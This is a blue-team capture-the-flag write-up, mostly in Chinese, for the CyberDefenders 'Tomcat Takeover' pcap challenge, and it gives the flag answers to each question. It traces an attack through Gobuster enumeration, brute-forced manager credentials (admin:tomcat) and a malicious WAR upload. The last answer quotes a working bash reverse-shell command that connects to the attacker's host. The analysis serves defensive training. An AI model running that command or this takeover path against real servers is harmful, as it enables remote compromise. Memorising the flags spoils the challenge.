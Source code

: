 # CyberDefender - Tomcat Takeover
Challenge: https://cyberdefenders.org/blueteam-ctf-challenges/135#nav-questions

:::spoiler TOC
[TOC]
:::

## Scenario
>  Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

## ==Q1==
> Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server? 
### Recon
直覺就是先看endpoint或conversation
### Exploit
可以看到==14.0.0.120==和內網的`10.0.0.112`，代表前者應該就是此次的外部攻擊者
![image](https://hackmd.io/_uploads/HkPNR5tUp.png)

:::spoiler Flag
Flag: `14.0.0.120`
:::
## ==Q2==
> Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated? 
### Recon
找到IP後丟到whois看detailed info
### Exploit
這一題問的是city，不是province，所以要填廣州，不是廣東
![image](https://hackmd.io/_uploads/HJakbiFIT.png)

:::spoiler Flag
Flag: `Guangzhou`
:::
## ==Q3==
> From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel? 
### Recon
隨便猜

:::spoiler Flag
Flag: `8080`
:::
## ==Q4==
> Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process? 
### Recon
這一題直接問chat-gpt，因為工具太多了，乾脆直接問AI最快
### Exploit
[ChatGPT Answer](https://chat.openai.com/share/72f8bf09-7c96-46c6-87a4-96b2e27e1f80)
> Dirb / Dirbuster / Gobuster / Dirsearch:
> * These tools are designed to brute-force directories and files on web servers by making requests with different wordlists.

:::spoiler Flag
Flag: `Gobuster`
:::
## ==Q5==
> Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover? 
### Recon
這一題是從tcp flow中的transport file，慢慢回推回去tcp stream再詳細看其中的packet，因為根據題目敘述，它應該是狂送一大堆封包去爆目錄，所以我們只要往大方向觀察就知道大概在哪一段
### Exploit
根據extracted file的內容，在#20649附近的stream已經可以拿到reverse shell了，代表從這邊往前可能是個不錯的選擇
![image](https://hackmd.io/_uploads/ByRj4ot8a.png)
果不其然，它的順序一定是先爆路徑，之後再想怎麼塞reverse shell，所以從下圖可以知道有一大堆的404 error request，跟著他的stream就可以看到最重要的那個sub-path
![image](https://hackmd.io/_uploads/H1YNVjKIa.png)
又題目說到該頁面是個admin panel，代表應該是個可以登入做authentication的地方，所以後續看到的第一個status code 200的/example就不是我們的目標，而是再更後面的==/manager==，因為它有login stage
![image](https://hackmd.io/_uploads/H1CjUsK8a.png)

:::spoiler Flag
Flag: `/manager`
:::
## ==Q6==
> Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization? 
### Recon
呈上題，拿到登入頁面當然就是要爆帳密，所以往後面的stream看可以發現有很多嘗試login的request，但都是401 Unauthorized
### Exploit
從下圖可以發現，往後刷幾個packets就有一個status 200的response，也就是attacker成功嘗試登入的response，從這邊把credential抓到base64 decode就會發現帳密
![image](https://hackmd.io/_uploads/HyM5DoYUT.png)

:::spoiler Flag
Flag: `admin:tomcat`
:::
## ==Q7==
> Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data? 
### Recon
往後看tcp stream會發現manager有upload的功能，所以attacker嘗試上傳一些東西，應該是一個zip file
### Exploit
![image](https://hackmd.io/_uploads/BJCtKjF8T.png)

:::spoiler Flag
Flag: `jxqozy.war`
:::
## ==Q8==
> Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence? 
### Recon
再往後看同一個stream的其他packet，發現server response 200，上傳成功後就可以直接進入reverse shell，接著就是看它的指令，發現他想要常駐在該台電腦上
### Exploit
![image](https://hackmd.io/_uploads/B12M5stLa.png)

:::spoiler Flag
Flag: `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
:::